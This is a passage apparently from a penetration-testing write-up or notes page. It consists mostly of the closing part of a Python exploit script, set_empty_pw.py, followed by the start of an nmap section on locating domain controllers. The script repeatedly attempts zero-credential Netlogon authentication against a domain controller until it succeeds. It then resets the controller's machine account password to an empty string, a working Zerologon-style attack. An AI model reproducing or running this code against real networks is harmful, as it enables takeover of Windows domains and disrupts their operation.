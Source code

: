 ```python3
      print(e)
    return rpc_con

  except nrpc.DCERPCSessionError as ex:
    #print(ex)
    # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
    if ex.get_error_code() == 0xc0000022:
      return None
    else:
      fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
  except BaseException as ex:
    fail(f'Unexpected error: {ex}.')


def perform_attack(dc_handle, dc_ip, target_computer):
  # Keep authenticating until succesfull. Expected average number of attempts needed: 256.
  print('Performing authentication attempts...')
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):  
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)
    
    if rpc_con == None:
      print('=', end='', flush=True)
    else:
      break

  if rpc_con:
    print('\nSuccess! DC should now have the empty string as its machine password.')
  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)


if __name__ == '__main__':
  if not (3 <= len(sys.argv) <= 4):
    print('Usage: set_empty_pw.py <dc-name> <dc-ip>\n')
    print('Sets a machine account password to the empty string.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
  else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)
```

## Nmap to the rescue:
### Find the DC specifically:
All domain controllers listen on port 389
